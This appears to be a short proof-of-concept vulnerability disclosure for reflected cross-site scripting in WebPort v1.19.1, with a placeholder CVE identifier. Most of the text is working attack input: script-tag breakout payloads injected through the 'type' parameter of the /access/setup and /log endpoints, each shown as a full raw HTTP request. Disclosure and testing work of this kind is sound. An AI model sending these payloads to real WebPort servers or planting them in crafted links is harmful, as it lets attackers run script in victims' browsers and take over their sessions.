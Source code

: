 # WebPort-v1.19.1-Reflected-XSS
Reflected XSS in WebPort-v1.19.1 impacts users who open a maliciously crafted link or third-party web page.

# CVE-2019-XXXX
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-XXXX

# PoC-1
To exploit vulnerability, someone could use **'http://[server]:8090/access/setup?type="</script><script>alert('xss');</script><script>'** request to impact users who open a maliciously crafted link or third-party web page.

```
GET /access/setup?type=%22%3C/script%3E%3Cscript%3Ealert(%27xss%27);%3C/script%3E%3Cscript%3E HTTP/1.1
Host: 172.16.165.182:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: __tiny_sessid=6361847c-952b-45ba-874c-71f1794ffe37
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/WebPort-Reflected-XSS-01.png)

# PoC-2
To exploit vulnerability, someone could use **'http://[server]:8090/log?type="</script><script>alert('xss');</script><script>'** request to impact users who open a maliciously crafted link or third-party web page.
  
```
GET /log?type=%22%3C/script%3E%3Cscript%3Ealert(%27xss%27);%3C/script%3E%3Cscript%3E HTTP/1.1
Host: 172.16.165.182:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: __tiny_sessid=6361847c-952b-45ba-874c-71f1794ffe37
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/WebPort-Reflected-XSS-02.png)
